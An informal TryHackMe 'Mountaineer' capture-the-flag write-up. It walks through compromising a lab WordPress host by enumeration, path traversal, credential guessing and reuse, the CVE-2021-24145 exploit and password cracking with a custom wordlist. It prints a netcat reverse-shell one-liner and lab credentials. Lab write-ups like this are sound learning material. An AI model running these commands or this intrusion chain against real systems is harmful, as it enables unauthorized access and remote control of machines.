

# Mountaineer tryhackme
MOUNTAINEER

For initial recon i used rustscan with -sCV flag

Port 22 (SSH): Running OpenSSH 8.9p1 on Ubuntu
Port 80 (HTTP): Running nginx 1.18.0 on Ubuntu
To gather more detailed information, I followed up with a Nmap scan on the detected ports, which provided additional details:

The SSH server uses ECDSA and ED25519 host keys.
The HTTP service is running nginx, supporting basic methods like GET and HEAD. The default nginx welcome page was displayed, suggesting no specific web application was immediately accessible.

I run a ffuf scan and i found wordpress directory

This is the wordpress website, in the mean time i used ffuf to enumerate for more directories

we can see a domain name here so add it to /etc/hosts

This is the website

Use wpscan for more info, and

we can see a theme is installed init
I used to exploit it but it didnt worked

Also we got some usernames:

ChoOyu
Everest
MontBlanc
admin
everest
montblanc
chooyu
k2

save into a text file.

we can see a image directory , capture the request

We can see a potential path traversal here

I used chat gpt to find the location of ngix that we can get some info

this is the intersting location that i found

we can see a vhost name there, add it to /etc/host file

Its a login page, it requires creds, so i tries SQL injection and other login bypass methos, nothing worked so i used the username that we got from WP scan to bypass it

`k2:k2`

is the usename and password

i got a password

th3_tall3st_password_in_th3_world

And another intersting mail

We already have a password and username , so i used it against wp-admin

`k2:th3_tall3st_password_in_th3_world`
it worked

If we have the authentication we can use the exploit CVE-2021-24145

https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

we can download it from here

And exploit it 

we got a shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip port >/tmp/f

I used this to get the reverse shell

we can see a backup file here , get into my system and analyse it

http.server method doesnt worked so i used nc method to transfer file

I used john to crack the password

But the rockyou is't working for me , and its taking too much time,
so i created a custom wordlist to crack it

We can use tools like Crunch,cewl, cupp to do this,

i used cupp , Because 

this format looks similar to the cupp

we got out custom wordlist

The password is cracked

Basic Commands

We got a username and password , its probaly for ssh

Login using ssh

We can direcly get the root password brom the bash history

